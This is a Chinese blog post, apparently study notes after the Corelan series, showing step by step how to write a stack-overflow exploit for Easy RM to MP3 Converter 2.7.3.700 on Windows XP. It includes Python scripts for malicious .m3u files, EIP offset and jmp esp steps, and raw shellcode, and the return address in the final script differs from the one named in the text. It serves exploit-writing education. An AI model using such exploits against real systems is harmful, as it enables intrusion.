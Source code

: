 title: exploit编写教程1：基于栈的溢出
date: 2015-12-15 21:21:14
tags: 
- 缓冲区溢出
- exploit 编写
categories: exploit 编写
---
一直都想系统学习exploit编写，最近找到个不错的网站[Corelan Team](https://www.corelan.be/),准备按照上面的教程学习，这是第一篇古老的buffer overflow
<!-- more -->

# Ⅰ、试验环境
- 测试平台： Microsoft Windows XP SP3
- 漏洞软件：Easy RM to MP3 Converter（版本2.7.3.700）
- 分析工具：Immunity Debugger
- 漏洞描述：通过创建一个恶意的.m3u文件将触发Easy RM to MP3 Converter (version 2.7.3.700)缓冲区溢出利用。

# Ⅱ、漏洞触发
我选用Python语言编写脚本，首先构造一个30000个字符的.m3u文件，前面25000全为’A’，后5000个为’B’。
```
#!/usr/bin/python
filename = "test.m3u"
f = open(filename,'w')
data = 'A' * 25000 + 'B' * 5000
f.write(data)
f.close()
```
使用Easy RM to MP3 Converter加载这个crash.m3u文件，出错，信息如下：

![](https://ww1.sinaimg.cn/large/005CA6ZCgw1ez0oss5wf7j30e5050759.jpg)

从上图可知，溢出之后的返回地址是0x42424242，也就是’BBBB’，这说明要覆盖的EIP在25000到30000之间。下面使用Immunity的查件mona来进行精确定位。

# Ⅲ、EIP定位
使用Immunity Debugger -> open -> RM2MP3Converter.exe ，F9运行，然后点击load -> test.m3u
回到Immunity Debugger，创建包含5000个字符的pattern
在命令行输入：
```
!mona pattern_create 5000
```

![](https://ww4.sinaimg.cn/large/005CA6ZCgw1ez0oyoodoej30i00dd0wn.jpg)

从Log data中可知，pattern文件在C:\D\mona-master\output\RM2MP3Converter\pattern.txt，
提取出生成的5000个字符文件，放入p.txt，并替换crash.m3u中最后5000个字符。脚本如下：
```
#!/usr/bin/python
filename = "test_pattern.m3u"
f = open(filename,'w')
data = 'A' * 25000
	
fp = open("p.txt",'r')
data += fp.read()
f.write(data)
f.close()
```

再次打开目标软件加载test_pattern.m3u，程序崩溃：

![](https://ww1.sinaimg.cn/large/005CA6ZCgw1ez0p2ebjfwj30e6040q3n.jpg)

此时EIP为：386b4237
在命令行输入：
```
!mona pattern_offset 386b4237
```

![](https://ww1.sinaimg.cn/large/005CA6ZCgw1ez0p476wlpj30mm0cp0wk.jpg)

我们看到EIP被修改的位置是25000 + 1103。
此时我们再用如下脚本测试一下位置是否正确：
```
#!/usr/bin/python
filename = "test.m3u"
f = open(filename,'w')
data = 'A' * 26103 + 'B' * 4 + 'C'*100
f.write(data)
f.close()
```

![](https://ww3.sinaimg.cn/large/005CA6ZCgw1ez0p83itkrj30e503ymxw.jpg)

我们可以看到，EIP现在是4个B，偏移正确，下面就是如何修改 EIP

# Ⅳ、寻找shellcode存放的地址空间
再次使用上面.m3u文件，崩溃时，打开栈的窗口

![](https://ww3.sinaimg.cn/large/005CA6ZCgw1ez0pbcdfiqj30ap0cfdhq.jpg)

我们看到在ESP此时为000FF730，EIP到这里还有4个字节。ESP开始用于存放shellcode。

# V、查找jmp esp地址
再次加载目标程序，F9之后Pause，在CPU窗口，右键 Search For ->All commands in All modules，在之后的窗口输入jmp esp。

![](https://ww2.sinaimg.cn/large/005CA6ZCgw1ez0pcw5iv0j30mx03uabs.jpg)

选一个7C874413（地址随便选，没有影响）。

# Ⅵ、构造最终的输入文件
```
#!/usr/bin/python
shellcode = ("\xFC\x33\xD2\xB2\x30\x64\xFF\x32\x5A\x8B"
"\x52\x0C\x8B\x52\x14\x8B\x72\x28\x33\xC9"
"\xB1\x18\x33\xFF\x33\xC0\xAC\x3C\x61\x7C"
"\x02\x2C\x20\xC1\xCF\x0D\x03\xF8\xE2\xF0"
"\x81\xFF\x5B\xBC\x4A\x6A\x8B\x5A\x10\x8B"
"\x12\x75\xDA\x8B\x53\x3C\x03\xD3\xFF\x72"
"\x34\x8B\x52\x78\x03\xD3\x8B\x72\x20\x03"
"\xF3\x33\xC9\x41\xAD\x03\xC3\x81\x38\x47"
"\x65\x74\x50\x75\xF4\x81\x78\x04\x72\x6F"
"\x63\x41\x75\xEB\x81\x78\x08\x64\x64\x72"
"\x65\x75\xE2\x49\x8B\x72\x24\x03\xF3\x66"
"\x8B\x0C\x4E\x8B\x72\x1C\x03\xF3\x8B\x14"
"\x8E\x03\xD3\x52\x33\xFF\x57\x68\x61\x72"
"\x79\x41\x68\x4C\x69\x62\x72\x68\x4C\x6F"
"\x61\x64\x54\x53\xFF\xD2\x68\x33\x32\x01"
"\x01\x66\x89\x7C\x24\x02\x68\x75\x73\x65"
"\x72\x54\xFF\xD0\x68\x6F\x78\x41\x01\x8B"
"\xDF\x88\x5C\x24\x03\x68\x61\x67\x65\x42"
"\x68\x4D\x65\x73\x73\x54\x50\xFF\x54\x24"
"\x2C\x57\x68\x4F\x5F\x6F\x21\x8B\xDC\x57"
"\x53\x53\x57\xFF\xD0\x68\x65\x73\x73\x01"
"\x8B\xDF\x88\x5C\x24\x03\x68\x50\x72\x6F"
"\x63\x68\x45\x78\x69\x74\x54\xFF\x74\x24"
"\x40\xFF\x54\x24\x40\x57\xFF\xD0");
	
ret = "\x7B\x46\x86\x7C";
filename = "crash.m3u"
f = open(filename,'w')
data = 'A' * 26103 + ret + '\x90' * 4 + shellcode
f.write(data)
f.close()
```
使用Easy RM to MP3 Converter加载这个crash.m3u文件，OK，成功了！！！

![](https://ww3.sinaimg.cn/large/005CA6ZCgw1ez0pdv48mlj30bo04cwez.jpg)

# Ⅶ、参考文献
<https://www.corelan.be/index.php/2009/07/19/exploit-writing-tutorial-part-1-stack-based-overflows/>
[exploit编写笔记1——基于栈的溢出](http://terenceli.github.io/%E6%8A%80%E6%9C%AF/2014/03/16/exploit-buffer-overflow/)



